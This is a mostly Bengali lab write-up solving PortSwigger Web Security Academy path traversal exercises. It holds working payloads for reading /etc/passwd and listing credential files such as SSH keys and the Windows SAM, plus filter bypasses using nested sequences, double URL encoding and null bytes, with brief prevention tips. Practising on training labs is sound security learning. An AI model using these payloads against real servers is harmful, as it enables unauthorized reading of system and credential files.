# **problem solved from portswigger**

## 📂 Path Traversal (Directory Traversal)
 ওয়েব সার্ভারের মূল (Root) ফোল্ডারের বাইরের সেনসিটিভ ফাইলগুলো অনুমতি ছাড়াই পড়া। 

## ১. Path Traversal কী?

এটি এমন একটি সিকিউরিটি হোল, যেখানে অ্যাটাকার ডট-ডট-স্ল্যাশ (`../`) ব্যবহার করে সার্ভারের ডিরেক্টরি থেকে "পিছিয়ে" এসে সিস্টেমের গোপন ফাইল (যেমন: পাসওয়ার্ড ফাইল, কনফিগারেশন ফাইল) দেখে ফেলে।

## ২. কীভাবে ইনপুট পয়েন্ট খুঁজে পাবেন?

ইউআরএল (URL) বা ফর্মে যেখানে ফাইলের নাম বা পাথ (Path) ইনপুট নেওয়া হয়, সেখানেই এটি টেস্ট করতে হয়।

**উদাহরণ ইউআরএল:**
`https://website.com/view-image?filename=profile.jpg`

এখানে সার্ভার ব্যাকএন্ডে হয়তো এই কমান্ডটি চালাচ্ছে:
`readFile("/var/www/images/" + filename)`

## ৩. ডট-ডট-স্ল্যাশ (`../`) অ্যাটাক

যদি আপনি `/etc/passwd` ফাইলটি পড়তে চান, তবে আপনাকে বর্তমান ইমেজ ফোল্ডার থেকে কয়েক ধাপ উপরে উঠতে হবে।

**(Payload Linux):**
`../../../etc/passwd`

**সার্ভার যেভাবে ফাইলটি খুঁজবে:**
`readFile("/var/www/images/../../../etc/passwd")`
*ফলাফল:* সার্ভার সরাসরি লিনাক্সের মেইন পাসওয়ার্ড ফাইলটি ওপেন করে দেবে।

## ৪. গুরুত্বপূর্ণ ফাইল যা টার্গেট করা হয় 

`/etc/passwd` | সব ইউজারের লিস্ট দেখতে। | 
`/home/user/.ssh/id_rsa` | সার্ভারে ঢোকার প্রাইভেট কী। |

## ৫. ফিল্টার বাইপাস করার টেকনিক (Bypasses)

যদি ওয়েবসাইট সাধারণ `../` ব্লক করে, তবে এই পদ্ধতিগুলো ব্যবহার করুন:

1. **Absolute Path:** কোনো ট্রাভার্সাল ছাড়াই সরাসরি পাথ লিখুন।
* `filename=/etc/passwd`

2. **Nested Sequences:** যদি সার্ভার একবার `../` মুছে ফেলে, তবে ডাবল করে লিখুন।
* `....//....//....//etc/passwd`

3. **URL Encoding:** ডট বা স্ল্যাশকে এনকোড করুন।
* `%2e%2e%2f` (একবার এনকোড)
* `%252e%252e%252f` (ডাবল এনকোড)

4. **Null Byte (%00):** যদি ফাইল এক্সটেনশন (.jpg) বাধ্যতামূলক হয়, তবে শেষে এটি ব্যবহার করে এক্সটেনশন বাদ দিন।
* `../../../etc/passwd%00.jpg`

## For Windows
## ৪. গুরুত্বপূর্ণ ফাইল যা টার্গেট করা হয় (Windows Target)

`C:\Windows\win.ini` | পুরনো কিন্তু সাধারণ টেস্ট ফাইল। | 
`C:\Windows\System32\drivers\etc\hosts` | সিস্টেমের hosts configuration। | 
`C:\Windows\System32\config\SAM` | Windows user password hashes |

**Payload for windows:** 
* `../../../Windows/win.ini`
* `..\..\..\Windows\win.ini`

 **Absolute Path:** কোনো ট্রাভার্সাল ছাড়াই সরাসরি পাথ লিখুন।
* `filename=C:\Windows\win.ini`

## ৬. Prevention

* ইউজার ইনপুটে `../` বা স্পেশাল ক্যারেক্টার ব্লক করা।
* ফাইলের শুধু নাম (`basename`) গ্রহণ করা, পুরো পাথ নয়।
* সার্ভারে ইউজারের পারমিশন কমিয়ে রাখা যাতে সে সিস্টেম ফাইল না পড়তে পারে।

## **Task-1:**
  

  

https://0ade00ac03d388c483d03c9300d800ff.web-security-academy.net/image?filename=15.jpg
  

https://0ade00ac03d388c483d03c9300d800ff.web-security-academy.net/image?filename=/etc/passwd 
*result: no such file* 
  

https://0ade00ac03d388c483d03c9300d800ff.web-security-academy.net/image?filename=../../../etc/passwd 

*result:  

  

### The problem is solved

## **Task-2:**
  

# Here block the traversal sequences so we use Absolute path to solve the problem.  
Absolute path `/etc/passwd`
https://0ad5002f04d4c347802c622b0010003e.web-security-academy.net/image?filename=../../../etc/passwd 
  

https://0ad5002f04d4c347802c622b0010003e.web-security-academy.net/image?filename=/etc/passwd 
  

### The problem is solved

## **Task-3:**
  

file_path = "/var/www/images/" + user_input 
আপনি যদি ইনপুট দেন /etc/passwd, তবে সার্ভার সেটিকে খুঁজবে: 
 /var/www/images//etc/passwd নামে। 
এই নামে কোনো ফাইল নেই, তাই এরর আসবে| 
আপনি যদি ../../etc/passwd দেন, তবে এটি হয়ে যাবে etc/passwd (যেহেতু ডট-স্ল্যাশ মুছে গেছে)। 
আমরা যখন ....//....//....//etc/passwd ব্যবহার করি, তখন ফিল্টারিংয়ের পর এটি দাঁড়ায়: 
   ../../../etc/passwd 
   
 https://0a2e0064031b399b8123fcce0016004f.web-security-academy.net/image?filename=....//....//....//etc/passwd 
  
### The problem is solved

## **Task-4:**

  
আমরা যদি ../ কে ইউআরএল এনকোড করি, তবে সেটি দেখাবে %2e%2e%2f হিসেবে। কিন্তু যদি আমরা একে Double Encode করি, তবে সেটি ফিল্টারকে ফাঁকি দিতে পারবে।

    . (Dot) এর এনকোড হলো %2e

    / (Slash) এর এনকোড হলো %2f

এখন যদি আমরা % চিহ্নটিকেও এনকোড করি (যেটির এনকোড হলো %25), তবে পুরো বিষয়টি দাঁড়াবে:

    .. → %252e%252e

    / → %252f

একত্রে পেলোডটি হবে: %252e%252e%252f 
..%252f মানে হলো ডিকোড হওয়ার পর এটি দাঁড়াবে ../ হিসেবে। ৩ বার এটি ব্যবহার করার মানে হলো আমরা বর্তমান ইমেজ ফোল্ডার থেকে ৩ ধাপ পেছনে রুট ডিরেক্টরিতে ফিরে যাচ্ছি। 
https://0adb006704ffb6e5802676c700640070.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd 
  

## Also can use:
https://0adb006704ffb6e5802676c700640070.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd 
  

### The problem is solved

## ** Task-5:**
  
শুরু অংশ (/var/www/images/): এটি দেওয়ার ফলে অ্যাপ্লিকেশনের সিকিউরিটি ফিল্টার মনে করে আপনি সঠিক ফোল্ডার থেকেই ফাইল নিচ্ছেন। তাই সে রিকোয়েস্টটি ব্লক করে না। 

https://0af800180422aee480117b8500960006.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd 
  

### The problem is solved

## **Task-6:**
  

অ্যাপ্লিকেশনের চেক: অ্যাপ্লিকেশন দেখে পুরো নাম ../../../etc/passwd%00.png। যেহেতু শেষে .png আছে, সে বলে "ঠিক আছে, এটি একটি ইমেজ ফাইল"। 
ফাইল সিস্টেমের কাজ: যখন সার্ভারের ব্যাকএন্ড বা অপারেটিং সিস্টেম ফাইলটি ওপেন করতে যায়, তখন সে %00 (Null Byte) দেখার সাথে সাথে পড়া বন্ধ করে দেয়। তার কাছে মনে হয় ফাইলের নাম ওখানেই শেষ।
আধুনিক ল্যাঙ্গুয়েজ (যেমন PHP 5.3.4+ বা আধুনিক Java) এখন এই Null Byte Injection ব্লক করে দেয়। তবে অনেক লিগ্যাসি সিস্টেম (পুরাতন সিস্টেম) বা ভুলভাবে কনফিগার করা সার্ভারে এখনো এই হ্যাকিং টেকনিকটি কাজ করে।

https://0a400007048dae5d804980560097006c.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg 
  

### Done

